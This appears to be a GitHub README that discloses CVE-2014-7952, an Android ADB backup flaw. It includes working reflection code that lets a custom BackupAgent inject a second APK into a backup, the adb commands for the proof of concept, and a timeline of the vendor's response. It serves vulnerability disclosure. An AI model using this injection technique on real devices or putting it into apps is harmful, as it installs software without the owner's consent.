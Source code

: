 # ADB-Backup-APK-Injection
Android ADB backup APK Injection POC. Discovered by Imre Rad (SEARCH-LAB Ltd.), Hungary.

What is ADB backup/restore?
---------------------------
The Android Operating System offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a [BackupAgent](http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent's does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application.
The Backup Manager can be exploited through simple reflection:

```
	  String packageName = "com.searchlab.wifitest"; // package name of the application to be injected
	  
	  Method backupToTar;
	  Method getData;
		try {
			Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");

			Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
			
			backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
			backupToTar.setAccessible(true);		
			
			getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
			getData.setAccessible(true);
			Object backupData = getData.invoke(data);
			
			 
			backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
			backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
		    
			Log.v("MYBACKUP", "backuptotar invoked!");
			
		} catch (Exception e) {
			e.printStackTrace();
		}
```

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):

-> ![ADB Backup Injection, custom BackupAgent](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-backupagenttest.png "ADB Backup Injection, custom BackupAgent") <-

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Step 5: Verify that Wifi Test application was indeed installed.
The application runs with android.permission.CHANGE_WIFI_STATE and android.permission.ACCESS_WIFI_STATE permissions to demonstrate that privilege escalation was also possible.

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today (2015-07-08), all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting more time for further investigation, but the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android security team
2014-07-28: Google refused to treat the issue as a potential threat, but requested to hold off publishing it
2014-10-15: Google answered that it did not get fixed in the L release and kept requesting to hold off publishing it
2015-06-02: Google promised further info in a few days, but it never arrived

